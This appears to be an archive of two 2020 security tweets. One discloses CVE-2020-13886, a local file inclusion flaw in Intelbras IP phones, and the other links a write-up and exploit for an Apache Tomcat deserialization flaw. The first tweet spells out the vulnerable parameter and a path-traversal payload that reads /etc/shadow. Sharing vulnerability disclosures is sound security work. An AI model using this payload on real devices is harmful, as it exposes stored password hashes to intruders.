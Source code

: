 
# wugeej
**https://twitter.com/wugeej/status/1291184302672158720 _at 2020-08-06, 01:28:21_**
<blockquote>
CVE-2020-13886 0day INTELBRAS TELEFONE IP TIP200/200 LITE &amp; TIP 300 - Local File Include

[ Proof Of Concept ]
URL parameter -&gt;http://HOST/cgi-bin/cgiServer.exx?page=

LFI payload -&gt; ../../../../etc/shadow

https://t.co/fQEOI2WZsF https://t.co/ixlAj26tAM
</blockquote>

* https://github.com/lucxssouza/CVE-2020-13886

<table><tr>
<td><img src="pictures/f175ce972d465d819a054870ff0aee805222fd35d85a1f5e53da691523566f13.jpg" alt="f175ce972d465d819a054870ff0aee805222fd35d85a1f5e53da691523566f13.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>97</code></td>
</tr></table>

---

# behindthebreach
**https://twitter.com/behindthebreach/status/1290860109053284353 _at 2020-08-05, 04:00:07_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) - write-up and exploit https://t.co/YygbwhoXTd #vulnerability #collection #execution #cve_2020_9484 #apache #tomcat
</blockquote>
